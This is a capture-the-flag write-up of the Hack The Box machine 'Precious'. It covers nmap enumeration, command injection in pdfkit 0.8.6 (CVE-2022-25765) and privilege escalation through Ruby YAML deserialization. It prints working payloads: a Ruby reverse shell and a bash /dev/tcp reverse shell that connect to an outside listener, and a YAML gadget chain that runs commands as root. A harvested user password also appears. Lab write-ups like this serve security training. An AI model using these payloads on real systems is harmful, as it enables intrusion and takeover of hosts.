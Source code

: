 ## Enum
```
# Nmap 7.93 scan initiated Tue Dec 20 21:25:17 2022 as: nmap -sC -sV -oN scans/nmap.initial 10.10.11.189
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-server-header:
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
|_http-title: Convert Web Page to PDF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 20 21:26:28 2022 -- 1 IP address (1 host up) scanned in 70.61 seconds
```

The webapp at precious.htb looks like this:  
![main.png](main.png)  

Wappalizer finds those things:
![wappalizer.png](wappalizer.png)

So this runs on phusion passenger
![passenger.png](passenger.png)

Hosting a simple page and directing the app to it
```bash
cat index.html
met an interesting turtle while the song on the radio blasted away

python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.189 - - [15/Jan/2023 16:31:15] "GET / HTTP/1.1" 200 -
```

This works and generates a pdf for us:
```bash
file n47e8tjnsoiodaxducb2ru815d36hiln.pdf
n47e8tjnsoiodaxducb2ru815d36hiln.pdf: PDF document, version 1.4, 1 pages

exiftool n47e8tjnsoiodaxducb2ru815d36hiln.pdf
ExifTool Version Number         : 12.54
File Name                       : n47e8tjnsoiodaxducb2ru815d36hiln.pdf
Directory                       : .
File Size                       : 11 kB
File Modification Date/Time     : 2023:01:15 16:42:10+00:00
File Access Date/Time           : 2023:01:15 16:43:01+00:00
File Inode Change Date/Time     : 2023:01:15 16:42:55+00:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

## PDFkit 0.8.6 - CVE-2022-25765

[snyk](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

```ruby
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf # 5 seconds wait... 
```

Since we controll the input url completely we can se whatever we want in there:
![inject.png](inject.png)  

And we'll get the result of the command as a GET param on our webserver:
```bash
10.10.11.189 - - [15/Jan/2023 17:15:10] "GET /?name=%20uid=1001(ruby)%20gid=1001(ruby)%20groups=1001(ruby) HTTP/1.1" 200 -
```

We have rce, let's get a shell
```ruby
http://10.10.14.122:8000?name=%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.122",4242))'`
```

```bash
rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.122] from (UNKNOWN) [10.10.11.189] 51170
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

## Lateral movement to Henry
```bash
cd
ls -la
total 36
drwxr-xr-x 6 ruby ruby 4096 Jan 17 15:02 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4096 Jan 17 11:48 .cache
drwx------ 3 ruby ruby 4096 Jan 17 15:02 .gnupg
drwxr-xr-x 3 ruby ruby 4096 Jan 17 14:53 .local
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
cd .bundle
ls -la
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .
drwxr-xr-x 6 ruby ruby 4096 Jan 17 15:02 ..
-r-xr-xr-x 1 root ruby   62 Sep 26 05:04 config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

## Privesc with YAML deserialization in ruby

```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```


```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end

```

[Blind RCE through YAML Deserialization](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)

```bash
henry@precious:~$ pwd
/home/henry
henry@precious:~$ cat dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: /home/henry/newt.sh 
         method_id: :resolve
```

```bash
henry@precious:~$ vi newt.sh
henry@precious:~$ chmod +x newt.sh
henry@precious:~$ cat newt.sh
#!/bin/bash
sh -i >& /dev/tcp/10.10.14.122/4242 0>&1

henry@precious:~$ sudo ruby /opt/update_dependencies.rb
sh: 1: reading: not found
```

```bash
rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.122] from (UNKNOWN) [10.10.11.189] 54992
# pwd
/home/henry
# id
uid=0(root) gid=0(root) groups=0(root)
```

```bash
# wc -c /root/root.txt
33 /root/root.txt
```
